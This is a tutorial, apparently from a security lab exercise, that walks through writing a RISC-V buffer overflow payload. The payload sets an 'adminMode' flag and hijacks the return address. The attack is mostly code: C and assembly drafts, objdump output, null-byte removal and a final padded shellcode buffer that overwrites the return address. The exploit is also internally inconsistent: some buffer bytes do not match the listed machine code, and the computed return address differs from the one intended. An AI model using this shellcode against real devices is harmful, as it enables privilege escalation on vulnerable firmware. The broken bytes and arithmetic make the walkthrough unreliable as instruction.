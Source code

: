 # Buffer Overflow Attack: Creating and Optimizing the Buffer

## Step 1: Initial C Code for the Attack

We start with the initial C code for the attack, saved in `attack_draft.c`:

```c
#define adminMode *(char *)0x4080d4e8
register unsigned int ra __asm__("ra");

void main()
{
    adminMode = 1;
    ra = 0x4200b788;
}
```

---

## Step 2: Generating Assembly Code

We compile the C code using a RISC-V compiler (e.g., cpulator) to generate the assembly code for the `main` function. The resulting assembly code is saved in `attack_draft.S`:

```assembly
.global _start
_start:
    lui     a5, 0x4080d       # load upper bits of adminMode address
    li      a4, 1             # load 1 into a4
    sb      a4, 0x4e8(a5)     # set adminMode to 1
    lui     ra, 0x4200b       # load upper bits of return address
    addi    ra, ra, 0x788     # add lower bits of return address
    ret                       # return
```

---

## Step 3: Compiling and Analyzing the Object File

We compile the assembly code into an object file using the `-march=rv32i` flag:

```bash
riscv32-esp-elf-as -march=rv32i attack_draft.S -o attack_draft.o
```

### What is `-march=rv32i`?

The `-march=rv32i` flag specifies that the code should be compiled for the RISC-V 32-bit architecture with the "I" (Integer) base instruction set. This is the simplest and most basic RISC-V instruction set, which does not include extensions like compressed instructions (RVC). We use `rv32i` here because the initial assembly code does not rely on any advanced features or extensions.

---

We then analyze the object file using `objdump`:

```bash
riscv32-esp-elf-objdump -d attack_draft.o
```

Output:

```plaintext
00000000 <_start>:
   0:   4080d7b7                lui     a5,0x4080d
   4:   00100713                li      a4,1
   8:   4ee78423                sb      a4,1256(a5) # 4080d4e8 <_start+0x4080d4e8>
   c:   4200b0b7                lui     ra,0x4200b
  10:   78808093                addi    ra,ra,1928 # 4200b788 <_start+0x4200b788>
  14:   00008067                ret
```

We notice that the machine code contains `0x00` bytes, which can cause issues during the attack.

---

## Step 4: Optimizing the Assembly Code

To avoid `0x00` bytes, we modify the assembly code and save it as `attack_optimized.S`:

```assembly
.global _start
_start:
    lui     a5, 0x4080d       # load upper bits of adminMode address
    c.li    a4, 1             # load 1 into a4
    .option norvc             # disable compressed instructions
    sb      a4, 0x4e8(a5)     # set adminMode to 1
    sub     ra, ra, ra        # clear ra
    addi    ra, ra, 0x42      # add 0x42 to ra
    slli    ra, ra, 24        # shift ra left by 24 bits
    lui     t3, 0xb6e00       # load upper bits of return address
    srli    t3, t3, 16        # shift t3 right by 16 bits
    add     ra, ra, t3        # add t3 to ra
    .option rvc               # enable compressed instructions
    c.jr    ra                # jump to ra
```

---

## Step 5: Compiling and Verifying the Optimized Code

We compile the optimized assembly code using the `-march=rv32imc` flag:

```bash
riscv32-esp-elf-as -march=rv32imc attack_optimized.S -o attack_optimized.o
```

### What is `-march=rv32imc`?

The `-march=rv32imc` flag specifies that the code should be compiled for the RISC-V 32-bit architecture with the "I" (Integer) base instruction set, the "M" (Multiplication and Division) extension, and the "C" (Compressed) extension. The compressed extension (RVC) allows for shorter 16-bit instructions, which are useful for avoiding `0x00` bytes in the machine code. We use `rv32imc` here because the optimized assembly code relies on compressed instructions like `c.li` and `c.jr`.

---

We then analyze the object file using `objdump`:

```bash
riscv32-esp-elf-objdump -d attack_optimized.o
```

Output:

```plaintext
00000000 <_start>:
   0:   4080d7b7                lui     a5,0x4080d
   4:   4705                    li      a4,1
   6:   4ee78423                sb      a4,1256(a5) # 4080d4e8 <_start+0x4080d4e8>
   a:   401080b3                sub     ra,ra,ra
   e:   04208093                addi    ra,ra,66
  12:   01809093                slli    ra,ra,0x18
  16:   b6e00e37                lui     t3,0xb6e00
  1a:   010e5e13                srli    t3,t3,0x10
  1e:   01c080b3                add     ra,ra,t3
  22:   8082                    ret
```

The optimized code contains no `0x00` bytes, making it suitable for the attack.

---

## Step 6: Converting Machine Code to a Buffer

We convert the machine code into a C buffer for use in the attack:

```c
char buffer[80] = {
    0xb7, 0xd7, 0x80, 0x40, // load adminMode address
    0x05, 0x47,             // load 1 into a4
    0x23, 0x84, 0xe7, 0x4e, // set adminMode to 1
    0xb3, 0x80, 0x10, 0x40, // clear ra
    0x93, 0x80, 0x20, 0x04, // add 0x42 to ra
    0x93, 0x90, 0x80, 0x01, // shift ra left
    0x37, 0x0e, 0x88, 0xb7, // load return address
    0x13, 0x5e, 0x0e, 0x01, // shift t3 right
    0xb3, 0x80, 0xc0, 0x01, // add t3 to ra
    0x82, 0x80,             // jump to ra
    0x01, 0x01, 0x01, 0x01, // padding
    0x01, 0x01, 0x01, 0x01, // padding
    0x01, 0x01, 0x01, 0x01, // padding
    0x01, 0x01, 0x01, 0x01, // padding
    0x01, 0x01, 0x01, 0x01, // padding
    0x01, 0x01, 0x01, 0x01, // padding
    0x70, 0x04, 0x81, 0x40, // overwrite return address
    0x00                    // null terminator
};
```

---

## Conclusion

1. We started with a C code snippet to enable admin mode.
2. Generated assembly code and optimized it to remove `0x00` bytes.
3. Used `-march=rv32i` for the initial assembly code and `-march=rv32imc` for the optimized code to leverage compressed instructions.
4. Converted the machine code into a buffer for use in the attack.
5. The final buffer can be used to exploit the vulnerable function and achieve the desired behavior.
